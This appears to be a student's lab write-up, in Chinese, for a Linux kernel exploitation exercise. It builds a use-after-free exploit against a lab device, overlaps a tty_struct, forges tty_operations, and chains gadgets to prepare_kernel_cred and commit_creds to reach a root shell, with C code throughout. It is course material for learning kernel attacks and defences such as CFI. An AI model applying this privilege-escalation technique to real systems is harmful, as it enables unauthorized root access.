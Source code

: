 
## 攻击思路
攻击的重点在于`/dev/ptmx`和`/dev/zjudev`。<br />由于内核中`zjudev`只有全局一个缓冲区，如果将设备打开两次，第二次打开的设备会覆盖第一次打开设备的缓冲区，且两次打开设备时候，我们可以获得指向同一个设备缓冲区的两个指针。<br />此时如果释放其中一个设备，由于在释放的时候指针没有置空，此时便可以通过另一个文件描述符操作该缓冲区对应的内存，即存在 UAF 漏洞。<br />同时实验提供的`ioctl`接口能够调整这个缓冲区大小。如果将其调整成内核中`tty_struct`的大小，完成上述操作后打开`/dev/ptmx`，内核会分配一个`tty_struct`结构体。当内核分配相同大小的数据结构时，便有可能使用这块由我们控制的缓冲区。<br />`zjudev`还为我们提供了`read`和`write`这块缓冲区的接口。由此我们便可以通过`write`来覆盖`/dev/ptmx`的 `const struct tty_operations *ops`字段，将其指向我们构建的一个形如`struct tty_operations`的结构体，这样在我们访问`/dev/ptmx`的某些接口的时候就会跳转到我们指定的函数中去，最终达到 root 权限的目的。

## Task 1
在 [tty.h L143](https://elixir.bootlin.com/linux/v5.15/source/include/linux/tty.h#L143) 中，我们可以看到`tty_struct`的定义（下图是部分内容）：
![image.png](./assets/1653829420926-8b6f53b0-0f87-4f22-b570-46c4fdac17c7.png)
我们关心的内容主要是`ops`：根据我们之前的讨论，我们的攻击方式就是更改这个字段。我们研究`ops`在`tty_struct`中的偏移；这里面唯一大小不明确的就是`kref`。我们追踪其定义：`struct kref` => `refcount_t` (`struct refcount_struct`) => `atomic_t` => `struct {int counter;}`，最终得知其大小就是一个`int`的大小，即 4 字节。因此，我们可以得出该结构体的基本排布：
![image.png](./assets/1653828539973-f9450cab-eb91-4d6e-9a43-0d151aa10be0.png)
当分配`tty_struct`时，`magic`字段就会被置为`0x5401`，因此我们判断最开始的 4 个字节的值是否为`0x5401`，就能够知道我们控制的指针指向的缓冲区是否被分配给了`tty_struct`了。

结合上述已知内容，我们可以编写如下的代码来完成上述内容并且验证我们的想法：
```c
int main() {
	int dev1 = open("/dev/zjudev", O_RDWR);
	int dev = open("/dev/zjudev", O_RDWR);
	
	ioctl(dev1, 0x0001, 0x2B8);
	close(dev1);
    
	int ptmx = open("/dev/ptmx", O_RDWR | O_NOCTTY);
	
	char buf[TTY_STRUCT_SIZE] = {0};
	read(dev2, buf, TTY_STRUCT_SIZE - 1);

	int magic;
	memcpy(&magic, buf, 4);
	DEBUG(magic, XYX_YELLOW);
	
	if (magic != 0x5401)	;/* error */
	
	return 0;
}

```
在上面的代码中，打开两个`zjudev`，将其缓冲区大小调整为`tty_struct`的大小后关闭其中之一，保留另一个的文件描述符；尝试打开`/dev/ptmx`并检查`magic`的位置是否是`0x5401`，也就检查了缓冲区是否被分配给了`tty_struct`。


## Task 2
Task 2 要求我们利用`hack_cred`函数获取 root 权限。<br />在 [tty_driver.h L247](https://elixir.bootlin.com/linux/v5.15/source/include/linux/tty_driver.h#L247) 中查看，发现`struct tty_operations`由 36 个函数指针构成。我们查看 Task 1 中取到的`buf + 24`位置上的`ops`指针指向的内容：
![image.png](./assets/1653831940224-e712cfe1-8319-455c-9dad-05a0a39e0a7e.png)
其中第一个指针指向的是`lookup`函数指针，我们去看一下到底指的是哪个函数：
![image.png](./assets/1653832531098-d053ccd1-e558-49af-8f8e-804b655fcf62.png)
知道了这个函数的名字之后，我们去看一下它在 System.map 中的地址：
![image.png](./assets/1653832582914-ceabcb71-8ff7-4058-909f-5e093c66b4fa.png)
可以看到，在调试状态下好像并没有开 KASLR 。但是，如果需要绕过 KASLR，我们只需要对 Task1 中得到的`ops`做一次取值，就能得到`ptm_unix98_lookup`的地址，与`0xffff80001076c978`计算一下偏移就可以了。

进一步地，如我们之前分析的那样，我们想要构造一个自己的`struct tty_operations`，篡改之前的`ops`使其指向这个结构体，然后调用`ptmx`的某个接口从而实现调用`hack_cred`。<br />从 System.map 中，我们可以找到`hack_cred()`的地址`0xffff80001083aa84`：
![image.png](./assets/1653830088065-7b9c6267-cc13-4411-bfb7-39df51c8282f.png)

最终，我们编写了代码，可以成功获得 root 权限！
![image.png](./assets/1653836823332-4ebe8109-28c0-463c-974b-f753b52b080a.png)
可以看到，上面圈圈 1 的位置打开的`ptmx`的`tty_struct`并不在我们控制的 buffer 那里，因此我们开了第二次。然后我们伪造了一个`ops`，调用`write(ptmx)`，这样就会调用到我们的`hack_cred`了！

## Task 3
获取这些东西的地址：
![image.png](./assets/1653848847569-67e3d636-f600-4bd7-8c50-e08139e35cc6.png)

   - `0xffff80001083aa44` `zju_gadget1`
   - `0xffff80001083aa5c` `zju_gadget2`
   - `0xffff80001083aa74` `zju_gadget3`
   - `0xffff8000100b6030` `prepare_kernel_cred`
   - `0xffff8000100b5bac` `commit_creds`

我们最终想达到的目的就是调用`struct cred* root_cred = prepare_kernel_cred(NULL);`和`commit_creds(root_cred);`<br />我们写出这三个 gadget 的伪代码：
```c
gadget1 {
    x1 = *(x0 + 0x38);	// x0 + 7
    x0 = x2;
    goto x1;
}

gadget2 {
    x0 = 0;
    x1 = *(x2 + 0x28);	// x2 + 5
    goto x1;
}

gadget3 {
    return x0;
}
```

根据实验指导的 4.3.2 利用 ioctl 控制寄存器 一节，我们可以知道，当我们调用`ioctl(fd, p1, p2)`这个系统调用的时候，实际上会完成如下内容：
```c
int ioctl(int fd, unsigned long int p1, void *p2) {
    ioctl_operation(tty_struct_of_fd, p1, p2);
    // which will make x0 = tty_struct_of_fd, x1 = p1, x2 = p2
}
```

综合上述内容，结合实验指导的提示，我们梳理出如下的调用过程：

- 获取`tty_struct`的地址
   - 调用`ioctl(fd, _, _)`，这会使得`x0 = tty_struct_of_fd`；我们将`ops`中`ioctl`的函数指针改为 gadget3 的地址，这样它会直接返回，返回值即为`x0`，即`tty_struct_of_fd`。
- 调用`prepare_kernel_cred(NULL);`并记录返回值
   - 调用这个需要让`x0 = 0`，因此我们注意到 gadget2。它将`x0`置为 0，然后将`x1`置为`*(x2 + 0x28)`。因此我们可以让`x1 = prepare_kernel_cred`，这样就可以完成调用了。
   - 所以，我们需要让`x2`指向`ops`的某个位置，`+ 0x28`就会找到它之后 5 位的函数指针，我们将这个指针控制为`prepare_kernel_cred`即可。
   - 同时，我们还需要记录返回值。因此，我们再调用一次`ioctl(fd, _, p2)`。我们不妨将`ioctl`指针改为 gadget2 的地址；让`p2`就等于`ops`，这样我们将`ops[7]`设为`prepare_kernel_cred`的地址，就可以实现调用和记录返回值了。
- 调用`commit_creds(root_cred);`
   - 调用这个需要让`x0 = root_cred`，但是`ioctl`不能直接填`x0`。注意到 gadget1 可以让`x0 = x2`，因此可以使用它。
   - 类似之前的思路，我们将`ioctl`指针改为 gadget1 的地址，让`p2`等于前一步的返回值；调用`ioctl`会使得`x0 = tty_struct_of_fd`，而`x1`会被赋值为`*(x0 + 0x38)`，因此将`buf[7]`设为`commit_creds`的地址即可。

按照上述思路构建攻击代码后，发现并不能产生预期结果。查看调试信息发现，获取到的地址高位均为 0。分析得知，`ioctl`的返回值类型是 `int`，因此对于返回的地址信息，我们还需要将其对`0xffff000000000000`做按位或运算。
![image.png](./assets/1653895154442-66483aa2-c4da-4413-8fd2-15a40ee9c65e.png)

对应进行修改后，我们写出了这样的代码：
```c
// ==== Task 3 ====
const u64 gadget1Addr = 0xffff80001083aa44;
const u64 gadget2Addr = 0xffff80001083aa5c;
const u64 gadget3Addr = 0xffff80001083aa74;
const u64 pkcAddr = 0xffff8000100b6030;
const u64 ccAddr = 0xffff8000100b5bac;

void prepareTtyStruct(int dev);

int main() {
	DEBUG(buf, XYX_RED);
	// Task 1:
	int dev = ...
	int ptmx = ...
	
	// Task 3:
	memset(forgedOps, -1, sizeof forgedOps);
	
	char newBuf[0x40];
	u64 forgedOpsPtr = (u64)(&forgedOps);
	memcpy(newBuf, buf, 0x40);
	memcpy(newBuf + 24, &forgedOpsPtr, 8);
	memcpy(newBuf + 0x38, &ccAddr, 8);
	
	write(dev, newBuf, 0x40);
	
	// > Step 1:
	forgedOps[12] = gadget3Addr;
	u64 ttyAddr = ioctl(ptmx, 0, 0) | 0xffff000000000000;
	DEBUG(ttyAddr, XYX_RED);
	
	// > Step 2:
	forgedOps[12] = gadget2Addr;
	forgedOps[5] = pkcAddr;
	u64 credRetVal = ioctl(ptmx, 0, forgedOps) | 0xffff000000000000;
	DEBUG(credRetVal, XYX_CYAN);
	
	// > Step 3: (buf[7] has been set before)
	forgedOps[12] = gadget1Addr;
	ioctl(ptmx, 0, credRetVal);
	
	system("/bin/sh");
	
	return 0;
}
```

尝试编译运行，得到了正确的结果，获得了 root 权限！
![image.png](./assets/1653896028902-b86c4022-ebe2-4054-80d7-81c9254fa3a8.png)


## Task 4
运行攻击代码，在没有 cfi 的 image 上运行正常：
![image.png](./assets/1653969148343-24d21cff-160a-4f28-8955-b0a3e9c98c4a.png)
在有 cfi 的 image 上运行时，可以看到出现了错误。查看 dmesg，看到相关信息：
![image.png](./assets/1653968915042-0c8d98e9-309b-4a20-8336-3c70e129567f.png)
